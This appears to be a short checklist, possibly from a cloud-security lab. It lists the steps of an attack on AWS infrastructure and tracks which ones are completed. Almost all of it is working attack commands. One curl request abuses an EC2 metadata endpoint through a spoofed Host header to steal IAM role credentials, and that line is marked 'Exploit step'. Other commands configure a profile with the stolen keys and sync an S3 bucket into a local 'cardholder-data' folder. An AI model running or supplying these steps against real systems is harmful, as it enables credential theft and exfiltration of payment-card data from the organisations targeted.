 # Relative path

- [x] curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'
- [x] aws configure --profile erratic
- [x] aws s3 sync s3://<bucket-name> ./cardholder-data --profile erratic

Steps: 3
Completed: 3

# Absolute path

- [ ] curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'
- [x] curl http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254' // Exploit step
- [x] aws configure --profile erratic
- [ ] aws_session_token = \<session-token\>
- [ ] aws s3 ls --profile erratic
- [x] aws s3 sync s3://<bucket-name> ./cardholder-data --profile erratic

Steps: 6
Completed: 3
